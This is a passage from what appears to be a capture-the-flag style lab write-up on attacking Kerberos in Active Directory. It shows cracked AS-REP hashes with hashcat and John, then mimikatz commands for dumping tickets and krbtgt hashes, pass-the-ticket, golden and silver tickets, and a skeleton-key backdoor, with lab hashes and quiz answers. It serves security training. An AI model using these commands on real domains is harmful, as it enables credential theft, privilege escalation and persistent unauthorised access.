$krb5asrep$23$User3@CONTROLLER.local:a82390e1187d686737bf6d6d0875ace5$a889a1eb5f300a26bcd9b6024c52802099a99aebcabef375c369085b1a63784e9949704d7cca8c429eb91a6ceaa5373fab913d550d354f263ff470d1cf32acba7f06ef58de9dc3886bcc00521e735dfb2031231d37a35d1df5e3f5e2baeb71af93b05846a07fa84faa1c454611f4220bb3c75b5ac9467b58c8bc5bc9cc58be79cdf3031fb0509c2ce269ebde76978001e4be655f1e357d704ff999958848baee3dcbf05ada5a0a0d8a1fa3d35410516e84900a8cc1b4da386b9c87c561f2836daeab18544cb34d0573a19e8cf7ad6332fb8682930e2fb33dc66a52018bb29e0ac6c22c5a9bf899bf0f86b7ac2948c52b87bb228f:Password3
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$User3@CONTROLLER.local:a82390e1187d68...bb228f
Time.Started.....: Mon Jun 22 06:49:17 2020 (0 secs)
Time.Estimated...: Mon Jun 22 06:49:17 2020 (0 secs)
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10963 H/s (2.36ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> hello123

Started: Mon Jun 22 06:49:07 2020
Stopped: Mon Jun 22 06:49:18 2020
root@kali:~# 
~~~

Or with John (no need to modify the hash signature):

~~~
$ /data/src/john/run/john user3.hash --wordlist=Pass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password3        ($krb5asrep$User3@CONTROLLER.local)
1g 0:00:00:00 DONE (2020-06-22 08:45) 20.00g/s 24800p/s 24800c/s 24800C/s 123456..hello123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Password: `Password3`

## #5.4 - Which Admin is vulnerable to AS-REP Roasting?

Answer: `Admin2`

## #5.5 - What is the Admin's Password?

Let's crack admin2's password with hashcat (with the same modification to apply to the hash, as explained previously):

~~~
root@kali:~# hashcat -m 18200 admin2.hash Pass.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz, 1024/2953 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
Dictionary cache hit:
* Filename..: Pass.txt
* Passwords.: 1240
* Bytes.....: 9706
* Keyspace..: 1240

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

$krb5asrep$23$Admin2@CONTROLLER.local:d74666fc02c59a3d6224c97f4214433f$f2dc7e041bdd4be66d11ceff49edb1bf011ccaf025458a2d5326caa1eb1b26deb7ddc246a5e8cbebecaa8674ec43efe5632ecc8eaf516dc6108c44a8e6305658c9a14998c173f3cc0a30bf2474dd7f067cf1ec33c859e2fbe4c9767dcfcf5db8147afa5f08cfec5eccf9fa9839d0c8c8475872951bdc28527567210f0fe014b38cd1a4752e2ed8f442c92e28ba79cfcb0699aaee8394071a53906be09d02da7f1214c279d8455eaa8045c16bbe40aca508da385b622a2a0f538a25911885269362b0ddf993f684fb850d77beffcaf992f247af0b48b76928d9d3e99c8e5d315ea38a61c0c35d62581c2a166ed8d0504744cdcb20:P@$$W0rd2
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$Admin2@CONTROLLER.local:d74666fc02c59...cdcb20
Time.Started.....: Mon Jun 22 06:54:14 2020 (0 secs)
Time.Estimated...: Mon Jun 22 06:54:14 2020 (0 secs)
Guess.Base.......: File (Pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12445 H/s (2.81ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1240/1240 (100.00%)
Rejected.........: 0/1240 (0.00%)
Restore.Point....: 0/1240 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> hello123

Started: Mon Jun 22 06:54:13 2020
Stopped: Mon Jun 22 06:54:15 2020
root@kali:~# 
~~~

Or with John (without modification to the hash):

~~~
$ /data/src/john/run/john admin2.hash --wordlist=Pass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@$$W0rd2        ($krb5asrep$Admin2@CONTROLLER.local)
1g 0:00:00:00 DONE (2020-06-22 08:52) 20.00g/s 24800p/s 24800c/s 24800C/s 123456..hello123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Password: `P@$$W0rd2`

# [Task 6] Pass the Ticket w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however well be using mimikatz in order to dump a TGT from LSASS memory

This will only be an overview of how the pass the ticket attacks work as THM does not currently support networks but I challenge you to configure this on your own network.

You can run this attack on the given machine however you will be escalating from a domain admin to a domain admin because of the way the domain controller is set up.

**Pass the Ticket Overview**

Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided. You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes. When you dump the tickets with mimikatz it will give us a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory. This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets laying around. The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin. You can think of a pass the ticket attack like reusing an existing ticket were not creating or destroying any tickets here were simply reusing an existing ticket from another user on the domain and impersonating that ticket.



**Prepare Mimikatz & Dump Tickets**

You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.

1. `cd Downloads` - navigate to the directory mimikatz is in
2. `mimikatz.exe` - run mimikatz
3. `privilege::debug` - Ensure this outputs `[output '20' OK]` if it does not that means you do not have the administrator privileges to properly run mimikatz



4. `sekurlsa::tickets /export` - this will export all of the `.kirbi` tickets into the directory that you are currently in. At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier. When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red below.



**Pass the Ticket w/ Mimikatz**

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

1. `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket.



2. `klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets. We will not be using mimikatz for the rest of the attack.



3. You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.



*Note that this is only a POC to understand how to pass the ticket and gain domain admin the way that you approach passing the ticket may be different based on what kind of engagement you're in so do not take this as a definitive guide of how to run this attack.*

**Pass the Ticket Mitigation**

Let's talk blue team and how to mitigate these types of attacks. 

* Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

# [Task 7] Golden/Silver Ticket Attacks w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however well be using mimikatz in order to create a silver ticket.

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's SQL server.

**KRBTGT Overview**

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A TGT is a ticket to a service account issued by the KDC and can only access that service the TGT is from like the SQLService ticket.

**Golden/Silver Ticket Attack Overview**

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

**Dump the krbtgt hash**

1. `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` - ensure this outputs `[privilege '20' ok]`
3. `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the `/name:` to dump the hash of either a domain admin account or a service account such as the SQLService account.



**Create a Golden/Silver Ticket**

1. `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.



**Use the Golden/Silver Ticket to access other machines**

1. `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.



2. Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.



This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.

## #7.1 - What is the SQLService NTLM Hash?

~~~
mimikatz # lsadump::lsa /inject /name:SQLService
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 00000455 (1109)
User : SQLService

 * Primary
    NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
    LM   :
  Hash NTLM: cd40c9ed96265531b21fc5b1dafcfb0a
    ntlm- 0: cd40c9ed96265531b21fc5b1dafcfb0a
    lm  - 0: 7bb53f77cde2f49c17190f7a071bd3a0

 * WDigest
    01  ba42b3f2ef362e231faca14b6dea61ef
    02  00a0374f4ac4bce4adda196e458dd8b8
    03  f39d8d3e34a4e2eac8f6d4b62fe52d06
    04  ba42b3f2ef362e231faca14b6dea61ef
    05  98c65218e4b7b8166943191cd8c35c23
    06  6eccb56cda1444e3909322305ed04b37
    07  25b7998ce2e7b826a576a43f89702921
    08  8609a1da5628a4016d32f9eb73314fa0
    09  277f84c6c59728fb963a6ee1a3b27f0d
    10  63a9f69e8b36c3e0612ec8784b9c7599
    11  47cb5c436807396994f1b9ccc8d2f8e1
    12  46f2c402d8731ed6dca07f5dbc71a604
    13  2990e284070a014e54c749a6f96f9be7
    14  c059f85b7f01744dc0a2a013978a965f
    15  3600c835f3e81858a77e74370e047e29
    16  bd9c013f8a3f743f8a5b553e8a275a88
    17  c1d94e24d26fdaad4d6db039058c292e
    18  1a433c0634b50c567bac222be4eac871
    19  78d7a7573e4af2b8649b0280cd75636d
    20  136ddfa7840610480a76777f3be007e0
    21  7a4a266a64910bb3e5651994ba6d7fb4
    22  a75ec46a7a473e90da499c599bc3d3cb
    23  8d3db50354c0744094334562adf74c2a
    24  7d07406132d671f73a139ff89da5d72e
    25  dd1e02d5c5b8ae969d903a0bc63d9191
    26  27da7fc766901eac79eba1a970ceb7da
    27  09333600bcc68ee149f449321a5efb27
    28  1c550f8b3af2eb4efda5c34aa8a1c549
    29  3cd9326a300d2261451d1504832cb062

 * Kerberos
    Default Salt : CONTROLLER.LOCALSQLService
    Credentials
      des_cbc_md5       : 5d5dae0dc10e7aec

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALSQLService
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a3a6dbd4d6fa895b600c28bfdaf6b52d59d46a6eb1f455bc08a19b7e8cdab76d
      aes128_hmac       (4096) : 629b46af543142f77cabcf14afb1caea
      des_cbc_md5       (4096) : 5d5dae0dc10e7aec

 * NTLM-Strong-NTOWF
    Random Value : 7e9547ab69f52e42450903ebbe6ad6ec

mimikatz #
~~~

Answer: `cd40c9ed96265531b21fc5b1dafcfb0a`

## #7.2 - What is the Administrator NTLM Hash?

~~~
mimikatz # lsadump::lsa /inject /name:Administrator
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 2777b7fec870e04dda00cd7260f7bee6
    LM   :
  Hash NTLM: 2777b7fec870e04dda00cd7260f7bee6

 * Kerberos
    Default Salt : WIN-G83IJFV2N03Administrator
    Credentials
      des_cbc_md5       : 918abaf7dcb02ce6

 * Kerberos-Newer-Keys
    Default Salt : WIN-G83IJFV2N03Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42b3c13c8c0fef3175eb2b5926f805f919123efd001a9c5a16ee9a86101e32b4
      aes128_hmac       (4096) : d01d6ccf97a2ee214ec7185173a3b659
      des_cbc_md5       (4096) : 918abaf7dcb02ce6

 * NTLM-Strong-NTOWF
    Random Value : 7bfd4ae86442827fb0db294d5c9855ce

mimikatz #
~~~

Answer: `2777b7fec870e04dda00cd7260f7bee6`

# [Task 8] Kerberos Backdoors w/ mimikatz

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking Kerberos. Unlike the golden and silver ticket attacks a Kerberos backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password. 

The Kerberos backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption. 

The default hash for a mimikatz skeleton key is `60BA4FCADC466C7A033C178194C03DF6` which makes the password `mimikatz`

This will only be an overview section and will not require you to do anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

**Skeleton Key Overview**

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

**Preparing Mimikatz**

1. `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz
2. `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing the Skeleton Key w/ mimikatz**

1. `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful



**Accessing the forest**

The default credentials will be: `mimikatz`

* example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password
* example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.

# [Task 9] Conclusion

We've gone through everything from the initial enumeration of Kerberos, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking Kerberos as well as active directory as a whole.

You should now have the basic knowledge to go into an engagement and be able to use Kerberos as an attack vector for both exploitations as well as privilege escalation.

Know that you have the knowledge needed to attack Kerberos I encourage you to configure your own active directory lab on your network and try out these attacks on your own to really get an understanding of how these attacks work.

**Resources**

* https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
* https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
* https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
* https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/
* https://www.varonis.com/blog/kerberos-authentication-explained/
* https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf
* https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf
* https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf
